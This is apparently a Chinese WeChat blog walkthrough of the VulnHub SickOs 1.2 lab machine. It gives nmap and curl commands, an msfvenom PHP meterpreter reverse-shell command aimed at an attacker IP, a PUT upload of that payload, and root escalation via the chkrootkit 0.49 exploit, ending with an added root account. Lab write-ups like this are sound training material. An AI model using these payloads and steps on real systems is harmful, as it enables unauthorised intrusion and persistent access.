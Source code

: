 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/LF_kr2IJAGvSQ-JPduw8CQ)

大余安全  

一个每日分享渗透小技巧的公众号![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCWsznInTj3b9TFYtTDIYG6lDGJZYYSv72NsVWF24Kjlo4MT29tEOQSg/640?wx_fmt=png)

  

  

大家好，这里是 **大余安全** 的第 **18** 篇文章，本公众号会每日分享攻防渗透技术给大家。

![](https://mmbiz.qpic.cn/mmbiz_png/gBSJuVtWXPZE73MPxL1VoDjO3DFaxJA2MQpSSibwsXKVf4VIHh8S9fZXT8pq1ALE3hWEN22AaniaghxGrJqjEsxw/640?wx_fmt=png)

靶机地址：https://www.vulnhub.com/entry/sickos-12,144/

靶机难度：中级（CTF）

靶机发布日期：2016 年 4 月 27 日

靶机描述：这是 SickOs 的后续系列中的第二篇，并且与先前的发行版无关，挑战范围是在系统上获得最高特权。

目标：得到 root 权限 & 找到 flag.txt

请注意：对于所有这些计算机，我已经使用 VMware 运行下载的计算机。我将使用 Kali Linux 作为解决该 CTF 的攻击者机器。这里使用的技术仅用于学习教育目的，如果列出的技术用于其他任何目标，我概不负责。

![](https://mmbiz.qpic.cn/mmbiz_png/ymNhlIRQRwIDdqQDCiblECK9VN2KquqTzJXM7etEnDcIpDdITqzFuiapav9TDnIiaGgf1e4sP9IO6B5NEtEyg2t5w/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/eGDabDaNAhQ72wHWRToOUZR31X9kamiak0wrpr3lxKHpuoTpia329Xu6T0OTYlZic9XeEyQ4twasnibb924VBgIt1g/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/yYVIchZg6P8bv6mcCfDb0QZDoxiamXpteOkqjQV683g1xN4kq1icGl3LQfYeKGY4TLZ0vyfq6yypMMEvV5VOMdRQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Ro6N8r7mkA4nMEtmJCEgicHQV2iaglXX3Gm7prz1oicYwc2dIxG3vw3WtX87U5k5pMwu62Aic1XITJdcBEbQia31V3Q/640?wx_fmt=png)

一、信息收集

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMZJdecMicBdvcEImYpic9hqlax4DdLo9egUW3cicDI3aOJ8jhnzD5YksUfL6uk2N0mKV7ib93hevMXicg/640?wx_fmt=png)

我们在 VM 中需要确定攻击目标的 IP 地址，需要使用 nmap 获取目标 IP 地址：

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMZJdecMicBdvcEImYpic9hqlXbFpCicIFUG0XBqNTmYB2fkM4d9JcjBDMfwmIRvtlenIh0ic3RmnSGzw/640?wx_fmt=png)

我们已经找到了此次 CTF 目标计算机 IP 地址：192.168.56.110

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMZJdecMicBdvcEImYpic9hqlONAEia1u1QicLZBdndQHmjJTndF1ZVz4o7gTIvq61jBAiam6OBqRNCsdA/640?wx_fmt=png)

```
nmap -sS -sV -T5 -A -p- 192.168.56.110
```

只开了 22 和 80 端口... 直接上 nikto 检查是否存在漏洞，dirb 查看存在目录...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMZJdecMicBdvcEImYpic9hqlGSpzxKB7iasC95NgkK5Awob0iab48pNYQ4aj5bN8hO3TCZ6ib3nKMZNGA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMZJdecMicBdvcEImYpic9hqlibHnbrEQXGEaeL6M5GVZMfbtd3nNva3PmmWlfMZRJbQ49nBdtp6549A/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMZJdecMicBdvcEImYpic9hqlnT8Ax7kLd74bPkyNS61BJNuOJV00eJq60tDtoBs7F6HdPHm2Q4e2mA/640?wx_fmt=png)

nikto 扫描没啥信息...dirb 发现一个 test 目录，访问 test

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMZJdecMicBdvcEImYpic9hqlPoDI3Wq005E8cJGTR5LaUaFicb64ibuZtxK3gFzMcUCtqNial8XuzosJA/640?wx_fmt=png)

这只是一个目录列表... 测试了针对 lighttpd 1.4.28 的各种漏洞利用和漏洞，但是它们均不适用于 SickOs....

使用 curl 检查目录 test 上可用的 HTTP 方法

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMZJdecMicBdvcEImYpic9hqlNdurSspfiatejwicNv6zp7j6zial5oGeRyKTAskJVE69R3TGVVjEUgmdQ/640?wx_fmt=png)

```
curl -v -X OPTIONS  http://192.168.56.110/test
```

可以上传文件.... 直接利用 http 的 PUT 上传文件

![](https://mmbiz.qpic.cn/mmbiz_png/yYVIchZg6P8bv6mcCfDb0QZDoxiamXpteOkqjQV683g1xN4kq1icGl3LQfYeKGY4TLZ0vyfq6yypMMEvV5VOMdRQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Ro6N8r7mkA4nMEtmJCEgicHQV2iaglXX3Gm7prz1oicYwc2dIxG3vw3WtX87U5k5pMwu62Aic1XITJdcBEbQia31V3Q/640?wx_fmt=png)

二、提权

开始

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMZJdecMicBdvcEImYpic9hqlWEkoib7dTiby4Gonhvu4QLic8iap5nZYvqBMfHRTD45wKBX1PzhgjY3ibhw/640?wx_fmt=png)

```
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.56.103 lport=443 R > dayu.php
```

继续利用 msf 制作好 muma 文件

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMZJdecMicBdvcEImYpic9hqlDp2z0WuUicic5RZIqse8oBFBTMBiaCDlcGFh7PfyxjibEO8vDOUt1MJa8Q/640?wx_fmt=png)

```
curl --upload-file dayu.php -v --url http://192.168.56.110/test/dayu.php -0 --http1.0
```

利用 curl 上传 php 到目录上... 成功

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMZJdecMicBdvcEImYpic9hqlXJAxEFteLeh7UPO2ibVfp9iarl0iccrLHJKI9JEGFhxv1pib0G5PbicoDfg/640?wx_fmt=png)

上传到目录了，这边直接使用 MSF 进行提权

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMZJdecMicBdvcEImYpic9hqlwYmQD4uaxXxqGyWncib4jWppIjU2yUEoV8U8khPbibyDXTRMn9khviaoA/640?wx_fmt=png)

这边只需要点下 web 上的 dayu.php 即可

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMZJdecMicBdvcEImYpic9hqlSV3iakIINk8nmiciblhjicwUicCBusScsqNCef8ibruiaDL6aV7c0sj35zBmw/640?wx_fmt=png)

这边继续寻找...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMZJdecMicBdvcEImYpic9hqlZzJC3ibibu91Gg9icMRwib5XAkdQiaCLXBpOAVakdspSKgxQY1l4oXM7syw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMZJdecMicBdvcEImYpic9hqlDJiamOJDA8ynnCEOIERmyVB9rGCp2m6tOOicIiaP6QbCH8Ll1wMm7J2og/640?wx_fmt=png)

这里找到了 chkrootkit 0.49 ，经典的向量提权

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMZJdecMicBdvcEImYpic9hqlFd02npjibKKYU99q15JJvwnM8vUXwkhaD1kQYZYFauL59m1GDrpg5tw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMZJdecMicBdvcEImYpic9hqlibooHzyIUL8dRT0T7wBu71rkRfnwbIX8TU4Qjo74icakavMyPia1FukUA/640?wx_fmt=png)

利用 33899.c 进行提权

先把文件放置在 / tmp / update 中

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMZJdecMicBdvcEImYpic9hql2kFWgLCc360SaBnDqzkr9IROglaMCkWHkZFnJfMZyyVCtEglRelHzQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMZJdecMicBdvcEImYpic9hqlFTicdZia7PCYBSucekwTKKqwsSEQLcjVMdFDwCicmK1ia8bIglykAk61KA/640?wx_fmt=png)

这边本来我还是使用了 MSF 硬生生提权，不会写代码提权（脑补）！！

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMZJdecMicBdvcEImYpic9hqln0DBBhRhGgmGEJmx8GUVNU7ibcqH7PNvy6MFiaJjuns0B1Xh6rpn00ww/640?wx_fmt=png)

使用 metasploit 搜寻漏洞利用，读取当前会话

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMZJdecMicBdvcEImYpic9hqlYKelg0KqNOcyIGfYFYfoAsW0JMCjpDCUZePmAOHAX5fLq0lG0rRtNA/640?wx_fmt=png)

执行 chkrootkit 有效负载

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMZJdecMicBdvcEImYpic9hqlQubT7mjkdJwCBlLEkWicXluf1mib91EBGVphUJAZLy0w7z8dDAEM5MIw/640?wx_fmt=png)

已成功将 update 文件提权为 root 权限，前面 lport 一直进不去，还是咨询了大神说得用 8080 端口才可以... 我反手就来弄个账户玩玩深入了解看看...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMZJdecMicBdvcEImYpic9hqlbPbczooHaj1eWDSM1Ydd2dSTToytC9WBEAenNpHeMRP9bc1zkKmK0Q/640?wx_fmt=png)

创建 dayu-root 用户后，用另外窗口 ssh 上去看看

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMZJdecMicBdvcEImYpic9hqljxTao5jX8OJMJE9AzpQkBc625KdMEou0Exwn687Jr3KMsibeia7bShUA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMZJdecMicBdvcEImYpic9hqlwaEdXc8qib3mTR0g2S7fZmsQqFmOia73ibdY3JEVT09MbIFfdR281gmCw/640?wx_fmt=png)

查看防火墙限制... 看来只限制 22、80、443、8080 进出，所以 php reverse shell 使用其他端口号都无法连接.. 前面浪费了很多时间在最后，我问大神说一句代码就能再 www-data 下直接拿到 root 权限让我参考 33899.... 看不太懂... 还得继续脑补

当然最后查看 flag 还是要的

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMZJdecMicBdvcEImYpic9hqlZGrspaZOJaibW9XNrdReUuuYlcyKbvicLMBibgRvr29hoW1ERibdr5yg6Q/640?wx_fmt=png)

成功...Thanks for giving this try.

![](https://mmbiz.qpic.cn/mmbiz_png/gBSJuVtWXPZE73MPxL1VoDjO3DFaxJA2MQpSSibwsXKVf4VIHh8S9fZXT8pq1ALE3hWEN22AaniaghxGrJqjEsxw/640?wx_fmt=png)

这台靶机和 SickOs: 1 思路有些相同，但是提权的方式方法不同...

由于我们已经成功得到 root 权限 & 找到 flag.txt，因此完成了 CTF 靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

![](https://mmbiz.qpic.cn/mmbiz_png/ymNhlIRQRwIDdqQDCiblECK9VN2KquqTzJXM7etEnDcIpDdITqzFuiapav9TDnIiaGgf1e4sP9IO6B5NEtEyg2t5w/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/eGDabDaNAhQ72wHWRToOUZR31X9kamiak0wrpr3lxKHpuoTpia329Xu6T0OTYlZic9XeEyQ4twasnibb924VBgIt1g/640?wx_fmt=png)

如果觉得这篇文章对你有帮助，可以转发到朋友圈，谢谢小伙伴~

![](https://mmbiz.qpic.cn/mmbiz_png/c5xrRn4430AnqkfAJc38Vpnc5XiaADLTjiciciaibYU4EHw3Nuh7YMtuB0hz3sb8Em9iatt5skAsibuuysPLdLY5LtWOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p3lIbvldZiabdI5iaCb3icRhtygUuo2sp6Hcdq0ANlpy5W3gL628uq032jsoVnGnl6HdGrgDXjfazFtkp6IInibDdQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqjaFWwyrrhiciahSpOibxqKvSIFX0iaPcG00CjYIwQDwIDeIicmFMlOVNyhWYVSE8pJK566UK3YOUNWQ/640?wx_fmt=png)

欢迎加入渗透学习交流群，想入群的小伙伴们加我微信，共同进步共同成长！

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

大余安全

一个全栈渗透小技巧的公众号

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCSsnsc7MHh257oYRic1MOT8qibABNUEnTq9DUL7QBwnS52EheJf4m8iaTQ/640?wx_fmt=png)